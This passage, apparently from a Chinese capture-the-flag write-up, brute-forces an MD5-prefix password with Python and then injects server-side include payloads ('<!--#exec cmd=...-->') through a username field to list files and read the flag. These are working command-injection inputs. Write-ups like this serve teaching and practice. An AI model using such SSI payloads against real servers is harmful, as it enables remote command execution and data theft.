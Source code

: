 ```php
        } else {
            echo "<script>alert('[!] Failed')</script>";
    }else
    {
    ***
    }
    ***
?>
```

用脚本跑出password的合适取值：

```python
import hashlib
def md5(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()
for i in range(1, 10000000):
    if md5(str(i)).startswith('6d0bc1'):
        print(i) //2020666
        break
```

password=2020666&username=12并没有明显的回显。尝试抓包发现：

![](https://s2.loli.net/2022/04/19/BEh7PbUQSX81TMD.png)

访问后发现12被写入文件了，跟源码逻辑一致，此题写入的是shtml，搜索得知使用ssi注入方式：

```php
username=<!--#exec cmd="ls ../"-->&password=2020666
username=<!--#exec cmd="nl ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
```















